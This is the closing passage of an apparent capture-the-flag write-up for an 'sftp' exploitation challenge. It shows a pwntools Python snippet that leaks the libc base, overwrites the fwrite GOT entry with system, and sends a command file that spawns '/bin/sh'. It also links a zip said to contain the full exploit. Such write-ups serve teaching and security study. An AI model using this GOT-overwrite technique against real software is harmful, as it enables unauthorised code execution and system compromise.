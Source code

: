 So if fwrite() is now in fact system() and the argument passed to the call in writen is file->data we must create a file that contains the command that we want execute.

```python
libc_bin.address = u64(got[:8]) - libc_bin.symbols["fwrite"]
log.info("libc base address: 0x%x" % libc_bin.address)

put_file("cmd", "/bin/sh\x00")

target = p64(libc_bin.symbols["system"])
put_file("got", target)

p.sendline("get cmd") #system("/bin/sh")
```

And win!

![sftp_8]({{"/assets/img/sftp_writeup/sftp_8.png" | absolute_url}})

In the following link to a zip file you can find the sftp.c source code, the sftp binary, the full exploit, the libc binary and the header that must be imported in IDA.

Attachment: [https://drive.google.com/file/d/1O0-QFmp7KQ1ojANU5y75ouv6hFhm4QD0/view?usp=sharing](https://drive.google.com/file/d/1O0-QFmp7KQ1ojANU5y75ouv6hFhm4QD0/view?usp=sharing)

